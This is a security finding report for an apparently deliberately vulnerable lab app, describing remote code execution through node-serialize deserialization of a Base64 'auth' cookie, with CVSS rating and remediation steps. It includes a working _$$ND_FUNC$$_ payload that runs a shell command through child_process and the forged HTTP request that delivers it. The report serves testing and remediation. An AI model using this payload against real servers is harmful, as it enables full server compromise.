


# Insecure-Deserialization-01 — Remote Code Execution via Auth Cookie Deserialization

## 1. Vulnerability Name
Insecure Deserialization leading to Remote Code Execution (RCE) — `auth` cookie processed with `node-serialize`.

## 2. Brief Description
The backend deserializes the client-controlled `auth` cookie using `node-serialize.unserialize()` after Base64 decoding it. The `node-serialize` format supports special function markers such as `_$$ND_FUNC$$_...`, which execute JavaScript during deserialization. An attacker can therefore send a crafted `auth` cookie and achieve arbitrary command execution in the Node.js process context.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: Burp Suite Community Edition Version 2025.12.5 (20260123234417)
- User / test context: no valid account is required; the attacker only needs to send a crafted `auth` cookie to an endpoint or WebSocket flow that deserializes it
- Relevant code paths:
	- `backend/middleware/auth.js`
	- `backend/websocket.js`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/middleware/auth.js`, around lines 4-6:
```js
function decodeToken(rawCookie) {
	const decoded = Buffer.from(rawCookie, 'base64').toString('utf-8');
	return serialize.unserialize(decoded);
}
```

`vulnerable/backend/websocket.js`, around line 102:
```js
const decoded = Buffer.from(rawCookie, 'base64').toString('utf8');
const payload = serialize.unserialize(decoded);
```

### Step 1 — Prepare the serialized payload
Use the payload shown in the screenshots:
```json
{"userId":2,"role":"user","rce":"_$$ND_FUNC$$_function(){require('child_process').exec('id',console.log)}()"}
```

### Step 2 — Base64-encode the payload
Encode the serialized object and place the result in the `auth` cookie.

### Step 3 — Send the request with the forged cookie
Replay any request that reaches `authMiddleware`, for example:
```http
GET /api/users/profile HTTP/1.1
Host: localhost:3001
Cookie: auth=<base64-encoded-malicious-payload>
```

The same issue is reachable during WebSocket connection setup because the backend deserializes `cookies.auth` there as well.

### Step 4 — Observe code execution on the server
When the backend deserializes the cookie, the `_$$ND_FUNC$$_` function is executed. In the demonstrated payload, the server runs `id` and prints the command output to the backend console.

Expected result:
- The malicious function executes on the server.
- Console output confirms command execution in the context of the Node.js process user.

## 5. Evidence (Screenshots)



## 6. Impact (CIA + Business)
- **Confidentiality:** Full compromise of application secrets, source code, configuration, environment variables, and any data accessible to the backend process.
- **Integrity:** The attacker can execute arbitrary system commands, modify application files, alter database-connected workflows, and tamper with runtime state.
- **Availability:** Arbitrary command execution can terminate the process, corrupt files, exhaust resources, or otherwise disrupt the service.
- **Business impact:** This is a full server-side compromise. Successful exploitation can lead to total takeover of the application container and any connected services reachable from it.

## 7. Risk Rating (CVSS 3.1)
```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
Score: 10.0 — CRITICAL
```

Rationale: the issue is remotely exploitable without valid credentials, requires no user interaction, and enables arbitrary code execution on the server.

## 8. Recommended Mitigation
Do not deserialize untrusted client input with `node-serialize`. Replace the current mechanism with a signed, integrity-protected session design.

Safer direction:
```js
// Do not store executable or trusted object data in a client-controlled cookie.
// Store only an opaque session identifier in an httpOnly cookie and keep session data server-side.
```

## 9. Remediation Guidance
1. Remove all uses of `node-serialize.unserialize()` on client-controlled data in `backend/middleware/auth.js` and `backend/websocket.js`.
2. Replace the current cookie format with a signed session ID or a properly signed token format that does not execute code during parsing.
3. Treat any cookie payload as untrusted input and validate its structure strictly before use.
4. Rotate secrets, invalidate all active sessions, and rebuild compromised environments after remediation, because successful exploitation may already have resulted in server compromise.
5. Add regression tests verifying that malformed or tampered cookies are rejected safely and never result in code execution.
